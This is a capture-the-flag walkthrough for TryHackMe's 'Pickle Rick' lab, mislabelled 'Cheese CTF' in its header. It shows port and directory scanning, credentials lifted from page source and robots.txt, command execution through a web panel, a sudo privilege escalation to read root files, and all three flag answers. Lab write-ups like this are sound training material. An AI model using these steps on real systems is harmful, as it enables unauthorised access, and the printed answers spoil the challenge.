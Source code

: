 ```yaml
---
title: Cheese CTF - TryHackMe
date: 2025-02-05
---
```


<script setup>
    import RoomCard from "../../../.vitepress/components/thm/RoomCard.vue";
</script>

<RoomCard
    roomName="Pickle Rick"
    roomIcon="/ctf/tryhackme/pickle-rick/icon-room.png"
    roomLink="https://tryhackme.com/room/picklerick"
    roomLevel="EASY"
    roomTechnology="Linux"
/>

## Challenge Overview

Pickle Rick is a **web application** challenge where we must find three **hidden ingredients** to reverse Rick’s
transformation into a pickle. The challenge involves **web enumeration, command injection, and privilege escalation** to
retrieve the ingredients.

## Nmap Scan - Identifying Open Ports

We start with a **full port scan** using `nmap`:

```bash
nmap -sC -sV -v -oN pickle-rick.nmap 10.10.208.201
```

Scan Results:

```
Nmap scan report for 10.10.208.201
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

Findings:

- Port **80** (HTTP) is open → Hosting a web server.
- Port **22** (SSH) is open → Potential for privilege escalation.

## Web Enumeration - Finding Login Credentials

We visit the **website on port 80**, where we see the challenge’s objective: **find three ingredients to cure Rick**.

![Pickle Rick - Home Page](/ctf/tryhackme/pickle-rick/home-page.png)

### Checking Page Source for Hints

Inspecting the **page source**, we find a **comment** revealing a username.

```html
<!--
    Note to self, remember username!
    Username: R1ckRul3s
-->
```

### Checking robots.txt for Clues

Navigating to `/robots.txt`, we find Rick’s **favorite catchphrase**, which might be useful as a **password**:

```bash
Wubbalubbadubdub
```

## Brute-Forcing Hidden Directories

We use **Gobuster** to discover hidden directories:

```bash
gobuster dir -w /usr/share/dirb/wordlists/common.txt -t 20 -x php,txt -u "http://10.10.208.201/"
```

Discovered Paths:

```bash
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
/login.php            (Status: 200) [Size: 882]
```

### Logging In

Using the **discovered credentials**, we log in:

- **Username:** `R1ckRul3s`
- **Password:** `Wubbalubbadubdub`

This gives us **access to a command execution panel**.

![Pickle Rick - Command Panel](/ctf/tryhackme/pickle-rick/command-panel.png)

## Finding the First Ingredient

### Listing Files

Using `ls`, we find a file named:

```bash
ls
Sup3rS3cretPickl3Ingred.txt
```

Attempting to read it with `cat` fails due to **output filtering**, so we use `less` instead:

```bash
less Sup3rS3cretPickl3Ingred.txt
```

First Ingredient:

```bash
mr. meeseek hair
```

## Finding the Second Ingredient

### Searching Home Directories

Checking `/home/rick/`, we find another **ingredient file**.

```bash
ls -al /home/rick
```

```
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

### Reading the File

```bash
less /home/rick/second\ ingredients
```

Second Ingredient:

```bash
1 jerry tear
```

## Privilege Escalation - Getting the Last Ingredient

### Checking Sudo Permissions

```bash
sudo -l
```

Output:

```
User www-data may run the following commands on ip-10-10-197-184:
    (ALL) NOPASSWD: ALL
```

This means we can **execute any command as root** without a password.

### Accessing Root Directory

```bash
sudo ls -al /root
```

Discovered Files:

```
-rw-r--r-- 1 root root   29 Feb 10  2019 3rd.txt
```

### Retrieving the Last Ingredient

```bash
sudo less /root/3rd.txt
```

Third Ingredient:

```bash
fleeb juice
```

## Final Ingredients List

```
1. mr. meeseek hair
2. jerry tear
3. fleeb juice
```

We successfully retrieved all **three ingredients**, completing the challenge! 🎉


